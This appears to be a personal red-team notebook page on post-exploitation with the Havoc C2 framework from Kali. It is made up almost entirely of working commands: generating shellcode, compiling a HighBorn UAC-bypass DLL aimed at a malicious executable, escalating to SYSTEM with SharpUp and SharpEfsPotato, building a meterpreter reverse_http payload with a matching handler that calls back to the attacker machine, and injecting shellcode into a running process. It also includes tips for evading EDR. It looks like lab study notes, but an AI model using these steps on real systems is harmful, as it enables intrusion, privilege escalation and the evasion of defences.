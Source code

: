 Havoc is just on kali now....
```
xxd -i demon.x64.bin > output.txt
```
Run the teamserver
```bash
./havoc server --profile ./profiles/havoc.yaotl -v --debug
```
#### Client
```
cd ~/Desktop/Havoc/
```
```bash
make client-build
```
```
./havoc client
```
Name: Havoc
Host: 127.0.0.1
Port: 40056
User: 5pider
Password: password1234
#### Clearing database
```
cd ~\Desktop\Havoc\data
```
```
grep -v "$IP" > teamserver.db
```
#### Add listener
View > Listeners > Add > Provide Name: >  save
Attack > Payload > Arch > Windows Shellcode > Generate
[[5._firewall and AntiVirus#nimcrypt]]
#### SharpUp
Used for PrivEsc
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries.git
```
dotnet inline-execute /home/kali/Desktop/Ghostpack-CompiledBinaries/SharpUp.exe audit
```
#### HighBorn
Used for UAC bypass
```
mousepad /home/kali/Desktop/Home-Grown-Red-Team/HighBorn/HIghBorn.c
```
Change the path on line 6 to the malicious exe file on the target box.
`WinExec("C:\\Users\\fcastle\\Desktop\\havocy.exe",1);`
```
x86_64-w64-mingw32-gcc -shared -o secur32.dll HighBorn.c -lcomctl32 -Wl,--subsystem,windows
```
Move secur32.dll to python server path.
```
sudo apt install mono-complete -y
```
```
mcs -out:HighBorn.exe HighBorn.cs
```
```
mv HighBorn.exe /home/kali/Desktop/
```
Back in Havoc:
```
dotnet inline-execute /home/kali/Desktop/HighBorn.exe
```
**Note:** You’ll need more OPSEC if you’re doing this against EDR. Try it against a different EXE and DLL set. ComputerDefaults.exe is very well known.
We can enumerate with PowerShell commands
[[4._POST_EXPLOITATION/2._WIndows_PrivEsc/1._Manual Enumeration]]
#### SharpEfsPotato
Used to escalate to SYSTEM - Demo on DC as it already has setImpersonate enabled
git clone https://github.com/bugch3ck/SharpEfsPotato.git
Compile in Visual Studio!  [[0._Visual Studio Compiling]]
Copy paste the exe into Kali:
`C:\Users\fcastle\Desktop\SharpEfsPotato-master\SharpEfsPotato-master\SharpEfsPotato\bin\Release\SharpEfsPotato.exe`
```
dotnet inline-execute /home/kali/Desktop/SharpEfsPotato.exe -p C:\Users\Administrator\Desktop\havocy.exe
```
#### Metasploit post exploitation
```
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=$KALI LPORT=8080 -f raw > /home/kali/Desktop/msf.bin
```
Run through [[#Harriet]]
`/home/kali/Desktop/msf.bin`
`/home/kali/Desktop/Home-Grown-Red-Team/Harriet/msf.exe`
[[10._TOOLS/Metasploit#Meterpreter Listener 1 Liner]]
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_http;set LHOST $KALI;set LPORT 8080;run;"
```
In Havoc:
```
shellcode inject x64 PID# /home/kali/Desktop/Home-Grown-Red-Team/Harriet/msf.exe
```
Example below with notepad.exe PID 3908
ALSO, msf.exe DID NOT RUN (too obfuscated?), but msf.bin worked fine
```
shellcode inject x64 3908 /home/kali/Desktop/msf.bin
```
[[10._TOOLS/Metasploit#Post exploit modules]]
